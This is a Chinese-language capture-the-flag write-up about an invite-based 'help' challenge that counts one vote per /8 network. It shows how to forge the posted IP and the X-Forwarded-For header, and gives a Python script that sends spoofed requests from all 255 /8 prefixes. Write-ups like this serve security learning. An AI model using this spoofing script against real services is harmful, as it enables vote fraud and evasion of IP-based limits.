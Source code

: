 可以得知点击按钮的时候，页面 post 了当前 ip，这是前端验证。

前端验证的绕过方法很简单，打开 hackbar，构造 Post data `ip=1.1.1.1`，执行后弹出警告 `失败！检测到前后端检测 IPv4 地址不匹配，前端地址： 1.1.1.1 ，后端地址： 111.27.47.10 。疑似地址伪造！`。从这个 "温情提示" 可以看出前端成功绕过了。

接下来绕过后端验证，首先尝试伪造 http header，此处可以伪造的只有 `X-Forwarded-For`。这个 header 的作用是在代理访问时保留自己的源 ip 供服务器识别。

在 hackbar 选择 `Add Header`，添加 `X-Forwarded-For: 1.1.1.1`，Post data `ip=1.1.1.1`

得到回显: `助力成功！您的 IPv4 地址是： 1.1.1.1 ，成功共同打造世界一流大砍刀！`

绕过很简单，不是么？

活动规则提到了 `活动要求位于同一 /8 网段的用户将会被视为同一个用户`，而 `/8` 网段对应掩码 `255.0.0.0`，表示共有 255 个子网，需要请求 255 次，显然手工在 10min 内完成是不可能的，也不方便解题。

于是尝试写请求脚本。payload 就是伪造的 ip pool

首先需要测试请求间隔，间隔过短的话请求会被拒绝，最后得出的间隔为 `1s`

然后是对于助力成功的判断、对助力重复的判断，这两种情况都要把 ip 从 ip pool 移除

response status_code 都是 200，显然不能从这里判断，那么只能从文本回显来判断了。

回显有如下 4 种

- 助力成功！您的 IPv4 地址是： 0.1.1.1 ，成功共同打造世界一流大砍刀！
- 失败！重复的 /8 地址： 1.1.1.1 。
- 失败！操作速度太快了，请稍后再试！

下面是我写的脚本

```python
import requests  # type: ignore
from time import sleep
from ipaddress import IPv4Address


url = 'http://202.38.93.111:10888/invite/2a1abf61-fb9b-456d-bac7-1e14e138e2b2'

f_ip = '{}.1.1.1'

ip_set = {*()}


for i in range(1, 256):
    ip = f_ip.format(i)
    ip_set.add(ip)


while ip_set:
    for ip in ip_set.copy():
        sleep(1)
        response = requests.post(url, data={'ip': str(ip)}, headers={'X-Forwarded-For': str(ip)})
        content = response.content.decode()
        if '助力成功' in content or '重复' in content:
            ip_set.remove(ip)
            continue
    print({i.split('.', 1)[0] for i in ip_set})
    print(f'剩余 ip 数量: {len(ip_set)}')
```
